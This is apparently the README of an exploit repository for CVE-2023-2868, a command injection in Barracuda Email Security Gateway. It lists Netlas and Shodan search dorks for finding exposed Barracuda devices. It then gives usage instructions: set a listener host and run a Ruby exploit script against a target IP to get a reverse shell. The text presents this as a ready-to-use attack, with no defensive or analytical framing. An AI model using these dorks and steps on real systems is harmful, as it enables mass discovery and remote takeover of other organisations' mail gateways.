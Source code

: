 # CVE-2023-2868
Barracuda ESG Command Injection 
- [Netlas Search Link](https://app.netlas.io/responses/?q=http.headers.server:"BarracudaHTTP")

- Shodan dorks:
```
http.waf:"Barracuda (Barracuda Networks)"
```
```
html:app_common::nonetwork.title
```
```
html:app_common::nonetwork.message
```
```
http.favicon.hash:1436966696
```
- Usage
Set LHOST and RHOST variables to your listener.

```
ruby exploit.rb <TARGET_IP>
```

This will spawn a reverse shell.
